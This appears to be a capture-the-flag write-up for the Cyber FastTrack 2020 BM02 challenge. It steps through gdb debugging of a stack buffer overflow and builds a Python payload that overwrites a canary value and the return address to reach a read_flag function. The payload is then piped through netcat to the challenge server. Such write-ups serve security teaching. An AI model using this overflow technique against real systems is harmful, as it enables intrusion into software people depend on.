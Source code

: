 # Cyber FastTrack Spring 2020- BM02 Solution
In this challenge, we use buffer overflow to display the flag.\
BM02_1.PNG\
![image info](BM02_1.PNG)
* We use IDA software to display the structure of this program. There are the exploitable(char const*) function and the read_flag(void) function. Also, there are some local variales that stored in the explotable() function. For a better understanding of the program, we need a gdb debugger.

BM02_2.PNG\
![image info](BM02_2.PNG)
* In the terminal, we type `gdb <name of your program>` to start the debugger.
* Type `run` to run the program in the debugger.
* Hold down the Ctrl key and press c

BM02_3.PNG\
![image info](BM02_3.PNG)
* Notice that, in order to enter the exploitable() function, we first need to enter `add_candidate` to add employee and then enter the exploitable() function.

BM02_4.PNG and BM02_5.PNG and BM02_6.PNG\

* Enter `disas exploitable(char const*)`
* Enter `c` to continue without paging
* we use break *address to set a break point. In this case, we use 0x5655634d.
* Type `break *0x5655634d`
* Type `run`
* Type `add_candidate`
* Enter one information for each of the First Name, Last Name, and Job Title.
* * In this case, I entered `First` as the First Name, `Last` as the Last Name, and `Title` as the Job Title.
* Then, you will encounter an breakpoint at `Breakpoint 1, 0x5655634d in exploitable(char const*) ()`
BM02_7.PNG
	Enter info frame to get the return address that stored at eip. In this case, the return address is 0x56557492. 
BM02_8.PNG
	Display the current and the next 199 stack pointer.
	Enter x/200x $sp
	The addresses that are 0x00000000 are local variables that we need to fill in before changing the return address. So in a text file, we enter
	print("add_candidate")
	print('A'*20)
	and save it as a python file.
BM02_9.PNG
	Hit Ctrl + c to exit the current program
	Run the program as:
	Type run < <(python bm02.py)
	Type y to start from the beginning
	In order to see the differences, we enter x/200x $sp to display the current and the next 199 stack pointer.
	From BM02_9.PNG, we see that there are 25 0x00000000 remaining for us to fill out and then we have to overwrite the 0xdeadbeef.
	Next, in order for us to change to return address, we need to overwrite the addresses that are before the return address. There are 3 adresses remaining to changes. Then, we changes the return address to 0x5655615d. Remember, we have to write the address in reverse byte order.
	We changes the contents of the python file to:
	print("add_candidate")
	print('A'*120 + '\xef\xbe\xad\xde' + 'A'*12 + '\x5d\x61\x55\x56')
BM02_10.PNG
	Hit Ctrl + c to exit the current program
	Run the program as:
	Type run < <(python bm02.py)
	Type y to start from the beginning
	Enter info frame to see if the return address changed to 0x5655615d.
BM02_11.PNG
	Use si to execute one instruction at a time to see if the program enters the read_flag(void) function.
	We see that the program enters the read_flag(void) function.
BM02_12.PNG
	Use si to execute one instruction at a time and we will see the flag eventually.
BM02_13.PNG
	In order to get the server to response to our request, we also need to print out the last name and the job title, so we edit the python file as below:
	print("add_candidate")
	print('A'*120 + '\xef\xbe\xad\xde' + 'A'*12 + '\x5d\x61\x55\x56')
	print("last name")
	print("job title")
	Send the bm02.py to the server and it would prints out the flag.
	python bm02.py | nc bm02.allyourbases.co 9003





	
